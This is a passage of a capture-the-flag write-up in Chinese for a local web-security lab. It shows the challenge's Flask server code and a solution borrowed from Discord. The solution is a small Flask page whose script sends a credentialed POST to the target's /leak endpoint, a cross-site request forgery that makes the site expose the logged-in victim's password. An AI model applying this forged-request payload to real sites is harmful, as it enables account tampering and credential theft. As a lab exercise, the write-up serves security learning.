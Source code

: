 ```
    if request.path == "/leak" and request.method == "POST":
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == hacker_host, f"Invalid `url`, hostname should be `{hacker_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    return "Not Found\n", 404
```
这个要求方法为POST，实在是不知道咋整，主要是前端那块儿会的太少了，看了一下 `discord`里面的解答，得到如下语句
```
from flask import Flask,request

app=Flask(__name__)
@app.route("/")
def index():
    data = '<script>var xhr=new XMLHttpRequest(); xhr.open("POST","http://challenge.localhost/leak",true);xhr.withCredentials=true;xhr.send(null);</script>'
    return data
app.run("hacker.localhost",8080)
```
*有点儿超纲了朋友。。。*
